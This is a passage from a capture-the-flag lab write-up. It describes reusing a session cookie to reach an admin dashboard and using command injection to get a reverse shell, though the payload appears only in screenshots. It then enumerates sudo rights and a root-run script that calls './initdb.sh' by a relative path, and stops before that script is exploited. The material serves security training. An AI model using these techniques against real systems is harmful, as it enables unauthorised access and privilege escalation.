![Untitled3](https://github.com/g1vi/AllTheWriteUps/assets/120142960/c60c6bb1-8c54-427b-bdcf-8f2de347ee49)

Add the cookie to Firefox (or Burpsuite headers) and navigate to `/dashboard`, an administrator panel appears.

![Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/9c4fbbc9-a6fe-477c-bf80-e47ae2bf2c8b)

Turns out the dashboard is used to execute a system diagnostic command. This looks like a candidate for command injection. Capture a request and add a reverse shell.

![Untitled2](https://github.com/g1vi/AllTheWriteUps/assets/120142960/4733b253-e528-482b-a5a7-4c4e17f4c770)

A reverse shell for user `dvir` is received on port 1919.

![Untitled1](https://github.com/g1vi/AllTheWriteUps/assets/120142960/53854ac0-42fa-479c-825a-077d4d14a7a8)

Which can be used to retrieve the user flag.
### ROOT
From the low-priv shell, take the opportunity to enumerate the system.
```markdown
> uname -a && cat /etc/os-release 
Linux headless 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64 GNU/Linux
PRETTY_NAME="Debian GNU/Linux 12 (bookworm)"
NAME="Debian GNU/Linux"
VERSION_ID="12"
VERSION="12 (bookworm)"
VERSION_CODENAME=bookworm
ID=debian
HOME_URL="https://www.debian.org/"
SUPPORT_URL="https://www.debian.org/support"
BUG_REPORT_URL="https://bugs.debian.org/"
```
And the `sudo` configuration.
```markdown
> sudo -l
Matching Defaults entries for dvir on headless:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User dvir may run the following commands on headless:
    (ALL) NOPASSWD: /usr/bin/syscheck
```
Enumerate the `syscheck` binary.
```markdown
> strings /usr/bin/syscheck
#!/bin/bash
if [ "$EUID" -ne 0 ]; then
  exit 1
last_modified_time=$(/usr/bin/find /boot -name 'vmlinuz*' -exec stat -c %Y {} + | /usr/bin/sort -n | /usr/bin/tail -n 1)
formatted_time=$(/usr/bin/date -d "@$last_modified_time" +"%d/%m/%Y %H:%M")
/usr/bin/echo "Last Kernel Modification Time: $formatted_time"
disk_space=$(/usr/bin/df -h / | /usr/bin/awk 'NR==2 {print $4}')
/usr/bin/echo "Available disk space: $disk_space"
load_average=$(/usr/bin/uptime | /usr/bin/awk -F'load average:' '{print $2}')
/usr/bin/echo "System load average: $load_average"
if ! /usr/bin/pgrep -x "initdb.sh" &>/dev/null; then
  /usr/bin/echo "Database service is not running. Starting it..."
  ./initdb.sh 2>/dev/null
else
  /usr/bin/echo "Database service is running."
exit 0
dvir@headless:~$ 
```